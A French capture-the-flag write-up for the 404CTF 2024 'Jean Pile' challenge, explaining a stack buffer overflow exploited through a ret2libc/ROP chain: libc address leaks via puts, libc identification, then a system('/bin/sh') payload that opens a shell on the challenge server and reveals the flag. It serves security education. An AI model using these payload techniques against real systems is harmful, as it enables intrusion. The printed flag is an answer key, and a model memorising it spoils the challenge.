


# Jean Pile



----

### 1. Choix de la stratégie : ret2libc

Le fichier fourni est un binaire 64 bits :

```sh
$ file jean_pile
jean_pile: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e4a57f6f6a9f01ef92ceeec7bf4fa5f373d967df, not stripped
```

Il n'y a pas de protection de la stack ni contre un overflow, ni contre l'exécution de celle-ci :

```sh
$ checksec jean_pile
[*] '/404CTF2024/jean_pile/jean_pile'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

A noter que l'énoncé précise que l'ASLR est activé sur le serveur.

La décompilation du binaire avec IDA Freeware donne :

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  puts("Bienvenue dans la cantine de la fameuse course annuelle du 404 ctf !");
  menu();
  service();
  puts(aMerci);
  return 0;
}

char *service()
{
  char *result; // rax
  char s[40]; // [rsp+0h] [rbp-30h] BYREF
  int v2; // [rsp+28h] [rbp-8h] BYREF
  int i; // [rsp+2Ch] [rbp-4h]

  puts("Voulez-vous commander un plat ou plus ?");
  printf(">>> ");
  fflush(stdin);
  __isoc99_scanf("%d", &v2);
  getchar();
  if ( v2 == 1 )
  {
    puts("Choisissez un plat.");
    printf(">> ");
    result = fgets(s, 200, stdin);
    if ( !result )
      exit(-1);
    for ( i = 0; i <= 199; ++i )
    {
      result = (char *)(unsigned __int8)s[i];
      if ( (_BYTE)result == 10 )
      {
        result = (char *)i;
        s[i] = 0;
      }
    }
  }
  else
  {
    puts("Choisissez un plat.");
    printf(">> ");
    if ( !fgets(s, 200, stdin) )
      exit(-1);
    for ( i = 0; i <= 199; ++i )
    {
      if ( s[i] == 10 )
        s[i] = 0;
    }
    puts("Un nouveau serveur revient vers vous pour la suite de votre commande au plus vite.");
    return service();
  }
  return result;
}
```

On remarque, au niveau de la fonction `service`, que l'appel à `fgets` permet de réaliser un overflow de `s` : au plus `200` caractères sont récupérés en entrée, alors que la capacité de stokage de `s` a été définie à `40`.

Ici, pas de fonction directement mise à disposition pour effectuer un appel `system`.

Néanmoins, il est toujours possible d'utiliser le contenu de la libc, via une attaque de type ["ret2plt"](https://ir0nstone.gitbook.io/notes/types/stack/aslr/ret2plt-aslr-bypass), pour faire ce type d'appel, étant donné que la stack n'est pas protégée contre les overflows.

Le fait que l'ASLR soit activé, n'est pas un problème. Par contre, on ne dispose pas de la libc pour savoir où se trouvent les adresses de la fonction `system` et de la chaine `/bin/sh` à lui passer en paramètre.

NB : l'exécution sur la stack n'étant pas désactivée, l'utilisation d'un shellcode semble être une autre approche possible.

----

### 2. Identification de la libc

Il existe des bases référençant pour différentes versions de la libc, les adresses des différents symbols (`system`, `puts`, ...) et de la chaine `/bin/sh`, dont voici une liste non exhaustive :
- https://bushart.org/resource/libc-database/
- https://libc.blukat.me/
- https://libc.rip/

Elles permettent de retrouver, à partir d'une liste d'adresse de symbols, la ou les librairies correspondantes. Il est possible de fournir directement les adresses allouées dynamiquement (ce qui est le cas quand l'ASLR est activé) : le moteur de recherche se charge lui même de faire la "normalisation". A noter que ces bases, sont interrogeables via API, même si cette fonctionnalité n'a pas été utilisée dans le cadre de ce challenge.

La première étape va donc consister à faire fuiter l'adresse mémoire de certains symbols afin de pouvoir ensuite retrouver la libc correspondante.

Pour cela on va modifier le flow d'instructions prévues en allant écraser l'adresse de retour de la frame courante (ie `rip` : *Return Intruction Pointer*) qui est positionnée sur la stack, grâce à un overflow. Au lieu de revenir à l'adresse prévue, on va utiliser la fonction `puts` (qui est utilisable directement car présente dans la section PLT de notre binaire) pour afficher à l'écran l'adresse dans la libc des symbols présents dans la GOT.

```sh
$ objdump -dj .plt jean_pile|grep puts@plt
0000000000400660 <puts@plt>:
```

Les symbols présents dans la GOT sont les suivants :

```sh
$ readelf -r jean_pile

Relocation section '.rela.dyn' at offset 0x4f8 contains 5 entries:
  Offset          Info           Type           Sym. Value    Sym. Name + Addend
000000601ff0  000300000006 R_X86_64_GLOB_DAT 0000000000000000 __libc_start_main@GLIBC_2.2.5 + 0
000000601ff8  000600000006 R_X86_64_GLOB_DAT 0000000000000000 __gmon_start__ + 0
000000602080  000b00000005 R_X86_64_COPY     0000000000602080 stdout@GLIBC_2.2.5 + 0
000000602090  000c00000005 R_X86_64_COPY     0000000000602090 stdin@GLIBC_2.2.5 + 0
0000006020a0  000d00000005 R_X86_64_COPY     00000000006020a0 stderr@GLIBC_2.2.5 + 0

Relocation section '.rela.plt' at offset 0x570 contains 8 entries:
  Offset          Info           Type           Sym. Value    Sym. Name + Addend
000000602018  000100000007 R_X86_64_JUMP_SLO 0000000000000000 puts@GLIBC_2.2.5 + 0
000000602020  000200000007 R_X86_64_JUMP_SLO 0000000000000000 printf@GLIBC_2.2.5 + 0
000000602028  000400000007 R_X86_64_JUMP_SLO 0000000000000000 fgets@GLIBC_2.2.5 + 0
000000602030  000500000007 R_X86_64_JUMP_SLO 0000000000000000 getchar@GLIBC_2.2.5 + 0
000000602038  000700000007 R_X86_64_JUMP_SLO 0000000000000000 fflush@GLIBC_2.2.5 + 0
000000602040  000800000007 R_X86_64_JUMP_SLO 0000000000000000 setvbuf@GLIBC_2.2.5 + 0
000000602048  000900000007 R_X86_64_JUMP_SLO 0000000000000000 __isoc99_scanf@GLIBC_2.7 + 0
000000602050  000a00000007 R_X86_64_JUMP_SLO 0000000000000000 exit@GLIBC_2.2.5 + 0
```

Comme on est en 64 bits, les conventions d'appel imposent de passer par les registres pour les 1er paramètres des fonctions appelées. Le 1er étant le registre `rdi`. Pour valoriser celui-ci, on va se servir d'un ROPgadget permettant d'enchainer ensuite directement sur l'appel de la fonction `puts` :

```sh
$ ROPgadget --binary jean_pile | grep rdi
0x0000000000400b83 : pop rdi ; ret
```

Pour finir, on va positionner la `rip` de la frame de `puts` de sorte que l'on exécute une nouvelle fois `service`. Cela permet alors d'exploiter à nouveau l'overflow pour récupérer l'adresse d'un autre symbol :

```sh
$ objdump --syms jean_pile|grep service
0000000000400936 g     F .text  0000000000000156              service
```

Sur la stack, `s` est positionné en `rbp-30h` (30h = 48 en décimal). 
Avant `s` on va retrouver la sauvegarde de `rbp` (sur 8 octets puisqu'on est en 64 bits) correspondant à la frame précédante et encore avant la `rip` que l'on cherche à écraser. Donc un overflow de 56 octets (48+8) permet d'atteindre cette `rip`.

Nous avons maintenant tous les éléments permettant d'exploiter l'overflow pour récupérer les adresses dans la libc. Le payload à utiliser dans le `fgets` est donc constitué comme suit :
- 56 octets (par exemple 56 `A`)
- l'adresse 64 bits du ROPgadget `rdi` (ie `0000000000400b83`)
- l'adresse 64 bits d'un des symbols de la GOT dont on veut récupérer l'adresse dans la libc
- l'adresse 64 bits de la fonction `puts` (ie `0000000000400660`)
- l'adresse 64 bits de la fonction `service` (ie `0000000000400936`)

Grace au script [`jean-pile.py`](./jean-pile.py), on récupère les adresses de `__libc_start_main`, `puts`, `printf`, `fgets`, `getchar`

```sh
$ python3 jean-pile.py REMOTE STEP1
[*] '/404CTF2024/jean_pile'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to challenges.404ctf.fr on port 31957: Done
[*] Loaded 14 cached gadgets for './jean_pile'
[+] __libc_start_main : 0x7f3e483e2280
[+] puts : 0x7f3e48432980
[+] printf : 0x7f3e4840d5b0
[+] fgets : 0x7f3e48431040
[+] getchar : 0x7f3e48438df0
[*] Closed connection to challenges.404ctf.fr port 31957
```

Maintenant qu'on dispose d'assez d'adresse (pour mieux discrimer les libc candidates), on peut lancer une recherche :



Cela permet de récupérer les adresses suivantes dans la libc :
- `puts` : 0x077980
- `system` : 0x04c490
- `/bin/sh` : 0x196031

----

### 2. ret2plt

Nous voila revenu au problème classique, maintenant que la libc est connue :
1. récupération de l'adresse allouée dynamiquement à `puts`
2. calcul des adresses de `system` et `/bin/sh` allouées dynamiquement
3. appel de `system(/bin/sh)`

On utilise ici aussi le même principe d'écrasement de la `rip`.

Pour récupérer l'adresse dynamique de `puts`, c'est exactement la même chose.

Pour l'exécution de `system(/bin/sh)`, il faut prendre en compte un problème potentiel d'alignement. Pour éviter celui-ci on va utiliser un autre ROPgadget `ret` :

```sh
$ ROPgadget --binary jean_pile | grep  ret
0x0000000000400646 : ret
```

Ce 2ème payload à utiliser est donc constitué comme suit :
- 56 octets (par exemple 56 `A`)
- l'adresse 64 bits du ROPgadget `rdi` (ie `0000000000400b83`)
- l'adresse 64 bits de `/bin/sh`
- l'adresse 64 bits du ROPgagdet `ret` (ie `0x0000000000400646`), pour éviter les problèmes d'alignement.
- l'adresse 64 bits de la fonction `system`
- 0x0 (une fois le flag récupéré, pas besoin de se préoccuper de ce qui se passe ensuite)

L'obtention d'un shell sur le serveur permet de récupérer le flag `404CTF{f4n_2_8denn3u}` :

```sh
$ python3 jean-pile.py REMOTE
[*] '/404CTF2024/jean_pile'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to challenges.404ctf.fr on port 31957: Done
[*] Loaded 14 cached gadgets for './jean_pile'
[+] puts : 0x7fb561247980
[*] Switching to interactive mode
$ ls
flag.txt
jean_pile
$ cat flag.txt
404CTF{f4n_2_8denn3u}
```
